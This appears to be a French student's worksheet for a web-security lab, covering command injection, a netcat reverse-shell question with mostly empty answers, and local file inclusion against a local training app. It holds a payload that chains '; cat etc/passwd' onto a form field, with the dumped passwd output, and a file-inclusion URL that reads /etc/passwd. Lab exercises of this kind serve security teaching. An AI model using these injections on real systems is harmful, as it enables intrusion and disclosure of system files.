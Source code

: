## Exercice 4 - (Injection de commandes)
*Objectif : Se rendre dans la page « Command Execution » et détourner son comportement initial pour obtenir le contenu du fichier « /etc/passwd »*
```bash
; cat etc/passwd
```
```
RESULTAT : root!:x:0:0:root:/root:/bin/bash 
daemon!:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
libuuid:x:100:101::/var/lib/libuuid: 
syslog:x:101:104::/home/syslog:/bin/false 
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```
- Comment chainer plusieurs commandes dans un Shell ?
	- **Avec des ";"**

## Exercice 5 - (Injection de commandes)
*Objectif : Toujours en exploitant la faille d’injection de commandes, obtener un shell interactif (Avec Putty Telnet ou netcat) sur le serveur.*
- Que puis-je faire avec netcat ? 
	- ****
- Il y a deux versions de netcat, quelle est la différence? 
	- ****
- Quelles sont les alternatives pour obtenir un shell ? 
	- ****
-  Quel langage peut être utilisé ? 
	- **Bash**

## Exercice 6 – (Local File Injection)
*Objectif: Se rendre dans la page « File Inclusion » et exploiter la faille pour afficher le contenu du fichier « /etc/passwd ».*
```
http://localhost:8080/vulnerabilities/fi/?page=/etc/passwd
```
